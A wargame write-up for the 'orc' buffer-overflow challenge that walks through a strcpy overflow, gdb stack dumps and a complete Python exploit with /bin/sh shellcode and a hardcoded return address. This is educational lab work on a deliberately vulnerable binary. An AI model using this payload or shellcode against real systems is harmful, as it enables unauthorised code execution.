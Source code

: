 # Vulnerability
In `orc.c`, strcpy() copys argv[1] into buffer[40], without boundary check.

Difference from last problem is that `egghunter` is added which reset environment variables and I must use stack address in RET since it check's RET's first byte is '\xbf' or not.
```c
char buffer[40];
// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}
strcpy(buffer, argv[1]);
```

# Exploitation
The buffer is smaller than first problem(gate which has 256 bytes) but enough to give NOP(15) + SHELLCODE(25).

```assembly
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %esp,%ebp
0x8048503 <main+3>:	sub    $0x2c,%esp
```

This process uses '\x2c' size but 4 bytes are for 'i' variable.

I will give that on buffer and use RET to buffer's address.

```
----------------------------------------------------------------
| NOP(15) | SHELLCODE[25] | AAAA(4) | RET[buffer's address](4) |
----------------------------------------------------------------
```

So, I made a python file to give payload and got a core dump file.

In core file, the memory is:
```
(gdb) x/32x $esp-48
0xbffffab0:	0x90909090	0x90909090	0x90909090	0x31909090
0xbffffac0:	0x2f6850c0	0x6868732f	0x6e69622f	0x5350e389
0xbffffad0:	0xd231e189	0x80cd0bb0	0x41414141	0xbfbfbfbf
```

But, used this address to return but doesn't work. So, I used argv[1] address instead buffer's address.
```
0xbffffc1c:	0x90909000	0x90909090	0x90909090	0x90909090
0xbffffc2c:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xbffffc3c:	0x31e18953	0xcd0bb0d2	0x41414180	0xfffab041
```

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA" # SFP
payload = payload + "\x20\xfc\xff\xbf" # RET

os.execv('/home/goblin/asd', ["", payload])
```
